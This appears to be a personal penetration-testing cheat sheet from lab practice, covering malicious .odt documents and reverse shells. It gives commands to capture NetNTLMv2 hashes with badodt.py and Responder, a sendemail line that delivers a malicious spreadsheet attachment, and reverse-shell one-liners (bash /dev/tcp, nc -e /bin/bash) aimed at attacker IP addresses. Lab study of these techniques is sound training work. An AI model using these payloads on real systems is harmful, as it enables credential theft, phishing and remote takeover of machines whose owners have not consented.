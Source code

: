 ### .doc / .odt

Grab NetNTLMv2 hash with ‘badodt.py’ (in /Desktop/share/ClientSide):

```jsx
python badodt.py
sudo responder -I tun0 -v -A
```

Get reverse shell:

We can craft an odt/ods files in libre like here: [ODT from Craft PG Practice](https://www.notion.so/ODT-from-Craft-PG-Practice-862cd2f384bd4c9da5d8512f59a6b8d3?pvs=21) 

via email (like in Hepet):

```jsx
sendemail -f 'jonas@localhost' \
                       -t 'mailadmin@localhost' \
                       -s 192.168.226.140:25 \
                       -u 'Your spreadsheet' \
                       -m 'Here is your requested spreadsheet' \
                       -a test.odt
```

Or just by uploading in a web page like Craft.

# Reverse Shells

[Online - Reverse Shell Generator](https://www.revshells.com/)

Generic way to find if we get packets from target:

```jsx
sudo tcpdump -i tun0 icmp -v
# payload: 
ping -c 5 192.168.45.226
# url encoded payload:
ping%20-c%205%20192.168.45.226
```

## Linux

```jsx
bash -c "bash -i >& /dev/tcp/192.168.45.197/443 0>&1"
```

```jsx
nc 192.168.45.239 4444 -e /bin/bash
```

<aside>
💡 /usr/bin/bash
/usr/bin/nc
/usr/bin/wget
/usr/bin/curl
 **could be the case as well!**
